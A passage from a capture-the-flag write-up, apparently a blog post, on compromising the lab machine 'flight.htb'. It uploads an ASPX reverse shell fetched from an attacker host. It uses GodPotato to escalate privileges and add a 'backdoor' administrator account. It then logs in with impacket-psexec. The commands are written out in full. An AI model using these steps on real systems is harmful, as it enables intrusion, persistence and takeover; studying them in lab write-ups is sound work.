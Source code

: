 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907102252.png)

great we can write here, so I tried .aspx reverse shell and it works
https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx
change ip and port 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907102716.png)

get it on target machine into development folder 

```
iwr "http://10.10.14.8/shell.aspx" -o "shell.aspx"
```

start listener and open

```
http://240.0.0.1:8000/shell.aspx
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907102808.png)

Now we are on local account and priv esc should be easy, cause this account have SeImpersonatePrivilege 
Start with godpotato

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907102931.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907103126.png)

downloading godpotato into machine

```
iwr "http://10.10.14.8/GodPotato.exe" -o "GodPotato.exe"
```

and running 2 commands to create new account and add it to administrators group

```
.\GodPotato.exe -cmd "net user /add backdoor Password123"
.\GodPotato.exe -cmd "net localgroup administrators /add backdoor"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907103724.png)

Now let's try our backdoor account and connect to target with psexec

```
impacket-psexec flight.htb/backdoor:'Password123'@10.10.11.187
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250907104117.png)

Now we can take root.txt 